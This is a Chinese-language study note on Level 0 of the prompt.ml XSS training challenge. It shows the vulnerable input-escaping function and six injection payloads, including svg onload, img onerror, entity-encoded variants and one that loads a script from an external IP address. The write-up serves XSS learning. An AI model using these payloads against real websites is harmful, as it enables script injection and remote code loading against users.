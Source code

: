 ```yaml
---
title: prompt-xss笔记
date: 2018-10-11 09:12:00
tags: XSS
categories: XSS
---
```


# prompt-xss笔记

在线xss题目,用于xss学习,弹出prompt(1)就过关.

地址:http://prompt.ml

文档: https://github.com/cure53/XSSChallengeWiki/wiki/prompt.ml

我使用的是firefox浏览器,不同的浏览器有时会有些差异。

# Level 0

## Code:

```
function escape(input) {
    // warm up
    // script should be executed without user interaction
    return '<input type="text" value="' + input + '">';
} 
```

## 分析:

没有过滤,需要构造闭合。
官方文档的答案是`"><svg  onload=prompt(1)>`,利用了svg标签的onload事件，
而onload 事件会在页面或图像加载完成后立即发生。

## Solutions:

```
1. "><script>prompt(1)</script>

2. "><svg onload=prompt(1)>

3. 利用外联方式 
"><script src="http://10.60.250.250/pro.js"></script>

4. 利用onerror事件,当src寻找的资源不存在发送错误弹框。
"><img src='' onerror='prompt(1)'>

5. 利用html的字符实体和SVG。
    SVG意为可缩放矢量图形（Scalable Vector Graphics）。
    SVG 使用 XML 格式定义图像。
   "><svg><script>prompt&#x28;1&#x29;</script></svg>

6. 利用编码
	"><img src="x" onerror="&#x70;&#x72;&#x6f;&#x6d;&#x70;&#x74;&#x28;&#x31;&#x29;"
>

```
